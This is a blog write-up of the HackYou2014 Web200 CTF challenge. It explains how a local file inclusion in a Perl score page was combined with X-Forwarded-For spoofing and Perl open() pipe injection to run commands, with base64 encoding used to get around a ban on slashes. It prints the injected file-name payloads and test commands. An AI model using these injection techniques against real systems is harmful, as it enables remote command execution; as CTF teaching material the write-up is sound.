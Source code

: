 +++
author = "pwntester"
categories = ["CTF", "Web", "PHP", "HackYou2014"]
date = 2014-01-15T22:35:00Z
description = ""
draft = false
slug = "hackyou2014-web200-write-up"
tags = ["CTF", "Web", "PHP", "HackYou2014"]
title = "#hackyou2014 Web200 write-up"

+++

In this [level](http://hackyou2014tasks.ctf.su:20080/) we are presented with a typical Snake game.

![](/images/octopress/snake.png)

I spent a couple of hours deofuscating the javascript code until I was capable of submitting any score. Nice but useless. I also found out that I could fake the IP associated to the score using the **X-Forwarded-For** header.
That was pretty much it until the CTF was about to finish when I was given the hint: "../". I could use it to locate a LFI vulnerability that was affecting the **index.php?ip** parameter so I was capable of reading **index.pl**:

![](/images/octopress/indexpl.png)

Reviewing the code we spot the LFI in line 4:

```lang-bash line-numbers 
$login = $session->param('login');
print $req->p('Hello, '.$login.'!');
if ($req->param('ip')) {
    $file = './data/'.MD5($login)."/".$req->param('ip');
    if (-e $file) {
        open FILE, $file;
        $html = '';
        while (<FILE>) {
            $html .= $_;
        }
        close(FILE);
        print $req->start_table({border=>1});
        print $req->Tr($req->th(['Date', 'Score']));
        print $html;
        print $req->end_table();
        print $req->a({href=>'index.pl'}, 'Back');
    } else {
        print $req->h1('Error');
    }
}
```

But also there is another interesting "feature" if $file exists then it will be opened and since perl **open()** command in line 6 allow us to inject commands using pipes, we can execute any arbitrary command. Problem is that $file needs to exist so how can we create a random file there? Well, we can use our ability to submit random IPs with **X-Forwarded-For**:

![](/images/octopress/web200-1.png)

Now if we go to index.pl?ip=|pwd| we will get:

![](/images/octopress/web200-2.png)

Nice! However we cannot create files containing a slash ("/"):

```lang-bash line-numbers 
fusion@fusion:~/test$ perl -e 'open(FILE, ">>", "./"."|pwd|")'
fusion@fusion:~/test$ perl -e 'open(FILE, ">>", "./"."|ls .|")'
fusion@fusion:~/test$ perl -e 'open(FILE, ">>", "./"."|ls ..|")'
fusion@fusion:~/test$ perl -e 'open(FILE, ">>", "./"."|ls /|")'
fusion@fusion:~/test$ ls
|ls ..|  |ls .|  |pwd|
```

No backslashes neither:


```lang-bash line-numbers 
fusion@fusion:~/test$ perl -e 'open(FILE, ">>", "./"."|`echo -e '\x6c\x73\x20\x2f'`|")'
fusion@fusion:~/test$ ls
|`echo -e x6cx73x20x2f`|  |ls ..|  |ls .|  |pwd|
```

Lets try base64:

```lang-bash line-numbers 
fusion@fusion:~/test$ perl -e 'open(FILE, ">>", "./"."|`echo bHMgLw== | base64 -d`|")'
fusion@fusion:~/test$ ls
|`echo -e x6cx73x20x2f`|  |`echo bHMgLw== | base64 -d`|  |ls ..|  |ls .|  |pwd|
```

Cool! lets submit it:

![](/images/octopress/web200-3.png)

And fetch our recompense:

![](/images/octopress/web200-4.png)




